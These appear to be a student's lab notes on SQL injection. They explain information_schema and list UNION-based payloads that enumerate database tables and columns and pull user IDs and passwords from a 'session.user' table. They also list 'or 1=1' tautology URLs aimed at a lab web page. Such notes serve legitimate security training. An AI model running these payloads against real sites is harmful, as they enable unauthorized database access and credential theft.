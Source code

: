 information_schema = database, database of databases, provides all information pertaining to database information

information_schema.columns = NOT actually a column! it is a table named 'column'. try not to think too hard

table_schema = column inside the 'columns' table

table_name = column inside the columns table, lits out table names

column_name = column inside the columns table, lists out column names

`Audi' UNION select 1,2,3,4,5;#`
`Audi' UNION select table_schema,2,table_name,column_name,5 from information_schema.columns; #`

1. table_schema 	:	database names
2. 2 = placeholder for hidden '2'
3. table_name
4. column_name
5. 5 = placeholder for '5'


- to get creds? switch it around a bit

##### 5. Extracting desired information

- switch around your golden SQL statement a bit

`Audi' UNION select id,2,name,pass,5 from session.user; #`



## SQL Injection - Webpages - GET METHOD

#### STEPS

##### 0. Behavior analysis
- look at what the website is actually doing ; pay attention to URL changes and what is happening on your screen, play with choices

##### 1. Determine vulnerable webpage via truth statement
- generic truth statement (GET)
- `<value or 1=1`
- `<value or 1=1;`
- `<value or 1=1; #
- `<value or 1=1; --`

- http://10.50.21.144/uniondemo.php?Selection=2 or 1=1
- http://10.50.21.144/uniondemo.php?Selection=2 or 1=1;
- http://10.50.21.144/uniondemo.php?Selection=2 or 1=1; #
- http://10.50.21.144/uniondemo.php?Selection=2 or 1=1; --

- http://10.50.21.144/uniondemo.php?Selection=3 or 1=1
- http://10.50.21.144/uniondemo.php?Selection=3 or 1=1;
- http://10.50.21.144/uniondemo.php?Selection=3 or 1=1; #
- http://10.50.21.144/uniondemo.php?Selection=3 or 1=1; --

- http://10.50.21.144/uniondemo.php?Selection=4 or 1=1
- http://10.50.21.144/uniondemo.php?Selection=4 or 1=1; 
- http://10.50.21.144/uniondemo.php?Selection=4 or 1=1; #
- http://10.50.21.144/uniondemo.php?Selection=4 or 1=1; --
